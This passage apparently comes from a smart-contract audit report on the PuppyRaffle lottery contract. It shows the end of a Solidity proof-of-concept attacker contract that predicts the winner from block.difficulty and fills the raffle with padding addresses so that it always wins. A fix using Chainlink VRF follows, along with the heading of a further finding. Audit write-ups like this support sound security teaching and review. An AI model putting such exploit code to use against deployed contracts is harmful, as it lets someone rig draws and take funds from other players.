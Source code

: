 ```
                            block.difficulty
                        )
                    )
                ) %
                toAdd;

            if (winnerIndex == playersLength) break;
            ++toAdd;
        }
        uint256 toLoop = toAdd - playersLength;

        address[] memory playersToAdd = new address[](toLoop);
        playersToAdd[0] = address(this);

        for (uint256 i = 1; i < toLoop; ++i) {
            playersToAdd[i] = address(i + 100);
        }

        uint256 valueToSend = 1e18 * toLoop;
        raffle.enterRaffle{value: valueToSend}(playersToAdd);
        raffle.selectWinner();
    }

    receive() external payable {}

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) public returns (bytes4) {
        return this.onERC721Received.selector;
    }
}
```

## Recommendations

Use Chainlink's VRF to generate a random number to select the winner. Patrick will be proud.
## <a id='H-04'></a>H-04. `PuppyRaffle::refund` replaces an index with address(0) which can cause the function `PuppyRaffle::selectWinner` to always revert
